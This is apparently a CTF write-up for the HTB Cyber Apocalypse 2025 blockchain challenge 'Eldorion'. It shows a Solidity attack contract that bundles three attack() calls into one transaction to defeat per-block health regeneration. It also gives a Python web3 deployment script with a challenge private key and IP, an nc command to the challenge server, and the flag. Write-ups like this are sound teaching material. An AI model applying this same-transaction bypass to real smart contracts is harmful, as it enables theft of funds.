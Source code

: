 ```yaml
---
title: CTF Writeup ~ Blockchain Eldorian // HTBCyberApocalypse2025
date: 2025-03-27
description: The main vulnerability lies in the health regeneration mechanism. While health resets each block, we can execute multiple attacks within a single transaction (same block) to bypass this regeneration.
image: images/htb/blockchain_eldorion_writeup_hero.png
imageAltAttribute: Blockchain Eldorian writeup
useCustomOgImage: false  # This will use the default site OG image instead of the post image
tags:
- ctf
- HTBCyberApocalypse2025
- writeups
- blockchain
---
```



# CHALLENGE NAME: Eldorion

## Description:
Welcome to the realms of Eldoria, adventurer. You've found yourself trapped in this mysterious digital domain, and the only way to escape is by overcoming the trials laid before you. But your journey has barely begun, and already an overwhelming obstacle stands in your path. Before you can even reach the nearest city, seeking allies and information, you must face Eldorion, a colossal beast with terrifying regenerative powers. This creature, known for its "eternal resilience" guards the only passage forward. It's clear: you must defeat Eldorion to continue your quest.

**Points:** 950  
**Difficulty:** Very Easy
**Category:** Blockchain

---

## Solution Walkthrough

### Understanding the Challenge
The challenge involves defeating Eldorion, a smart contract with regenerative health properties. The key aspects are:
1. Eldorion has 300 health points
2. Health regenerates at the start of each block
3. We need to deal enough damage to defeat it before regeneration

### The Vulnerability
The main vulnerability lies in the health regeneration mechanism. While health resets each block, we can execute multiple attacks within a single transaction (same block) to bypass this regeneration.

### Exploitation Steps

1. **Create Attack Contract**: We create a smart contract that bundles multiple attack calls into a single transaction:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.28;

interface IEldorion {
    function attack(uint256 damage) external;
}

contract Attack {
    function exploit(address eldorionAddress) external {
        IEldorion eldorion = IEldorion(eldorionAddress);
        eldorion.attack(100); // First attack
        eldorion.attack(100); // Second attack
        eldorion.attack(100); // Third attack
    }
}
```

2. **Deploy and Execute**: Create a Python script to deploy the attack contract and execute the exploit:

```python
from web3 import Web3
from eth_account import Account
from solcx import compile_source, install_solc

# Install and set solc version
install_solc('0.8.28')

# Connect to the RPC endpoint
w3 = Web3(Web3.HTTPProvider('http://94.237.57.187:45606'))

# Account setup
private_key = '0x927caa97e8b93ef4d1c30551c15a48b700be7b9fec72e41522a1279ee11ee93a'
account = Account.from_key(private_key)
target_address = '0x0B105bAbbaf390bB5eA5b6e9A2eB27019592b142'

print(f"Account address: {account.address}")
print(f"Target contract: {target_address}")

# Update contract source with explicit interface separation
contract_source = '''
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.28;

interface IEldorion {
    function attack(uint256 damage) external;
}

contract Attack {
    function exploit(address eldorionAddress) external {
        IEldorion eldorion = IEldorion(eldorionAddress);
        eldorion.attack(100);
        eldorion.attack(100);
        eldorion.attack(100);
    }
}
'''

# Compile contract
compiled = compile_source(
    contract_source,
    output_values=['abi', 'bin'],
    solc_version='0.8.28',
    base_path='.'
)

# Get contract interface (focusing on Attack contract)
for key, value in compiled.items():
    if ':Attack' in key:  # Find the Attack contract specifically
        contract_interface = value
        break

abi = contract_interface['abi']
bytecode = contract_interface['bin']

print("Contract ABI:", abi)  # Debug print to verify

# Create and deploy contract
contract = w3.eth.contract(abi=abi, bytecode=bytecode)
nonce = w3.eth.get_transaction_count(account.address)

deploy_tx = contract.constructor().build_transaction({
    'from': account.address,
    'nonce': nonce,
    'gas': 2000000,
    'gasPrice': w3.eth.gas_price
})

signed_tx = w3.eth.account.sign_transaction(deploy_tx, private_key)
tx_hash = w3.eth.send_raw_transaction(signed_tx.raw_transaction)
tx_receipt = w3.eth.wait_for_transaction_receipt(tx_hash)

contract_address = tx_receipt.contractAddress
print(f"Attack contract deployed at: {contract_address}")

# Create contract instance
attack_contract = w3.eth.contract(address=contract_address, abi=abi)

# Execute exploit
nonce = w3.eth.get_transaction_count(account.address)
exploit_tx = attack_contract.functions.exploit(target_address).build_transaction({
    'from': account.address,
    'nonce': nonce,
    'gas': 200000,
    'gasPrice': w3.eth.gas_price
})

signed_tx = w3.eth.account.sign_transaction(exploit_tx, private_key)
tx_hash = w3.eth.send_raw_transaction(signed_tx.raw_transaction)
tx_receipt = w3.eth.wait_for_transaction_receipt(tx_hash)

print("Exploit transaction sent:", tx_hash.hex())
print("Transaction status:", "Success" if tx_receipt.status == 1 else "Failed")
```

3. **Get the Flag**: After successfully executing the exploit, connect to the challenge server to retrieve the flag:
```zsh
nc 94.237.57.187 37328
```

## Flag

![Flag](/images/htb/blockchain_eldorion_writeup_flag.png)

```zsh
HTB{w0w_tr1pl3_hit_c0mbo_ggs_y0u_defe4ted_Eld0r10n}
```

## Key Takeaways
1. Smart contract state changes within the same transaction occur before block-level effects
2. Bundling multiple attacks in one transaction bypassed the regeneration mechanism
3. Understanding blockchain transaction atomicity is crucial for smart contract security